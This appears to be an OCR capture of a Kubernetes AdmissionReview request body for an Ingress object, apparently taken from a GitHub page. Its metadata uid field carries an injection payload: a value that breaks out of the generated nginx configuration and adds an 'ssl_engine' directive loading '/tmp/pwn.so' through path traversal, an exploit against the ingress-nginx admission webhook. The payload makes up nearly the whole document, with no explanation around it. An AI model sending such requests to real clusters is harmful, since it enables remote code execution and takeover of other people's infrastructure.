 ```
      "requestKind": {
         "group": "networking.k8s.io",
         "version": "v1",
         "kind": "Ingress"
      },
      "requestResource": {
         "group": "networking.k8s.io",
         "version": "v1",
         "resource": "ingresses"
      },
      "name": "minimal-ingress",
      "namespace": "default",
      "operation": "CREATE",
      "userInfo": {
         "uid": "1619bf32-d4cb-4a99-a4a4-d33b2efa3bc6"
      },
      "object": {
         "kind": "Ingress",
         "apiVersion": "networking.k8s.io/v1",
         "metadata": {
            "name": "minimal-ingress",
            "namespace": "default",
            "creationTimestamp": null,
            "uid": "test#;\n\n}\n}\n}\nssl_engine ../../../../../../tmp/pwn.so",
            "annotations": {
                "nginx.ingress.kubernetes.io/mirror-target": "xxxxxxxxxxx"
            }
         },
         "spec": {
            "ingressClassName": "nginx",
            "rules": [
               {
                  "host": "test.example.com",
                  "http": {
                     "paths": [
                        {
                           "path": "/",
                           "pathType": "Prefix",
                           "backend": {
                              "service": {
                                 "name": "kubernetes",
                                 "port": {
                                    "number": 443
                                 }
                              }
                           }
                        }
                     ]
                  }
               }
            ]
         },
         "status": {
            "loadBalancer": {}
         }
      },
      "oldObject": null,
      "dryRun": true,
      "options": {
         "kind": "CreateOptions",
         "apiVersion": "meta.k8s.io/v1"
      }
   }
```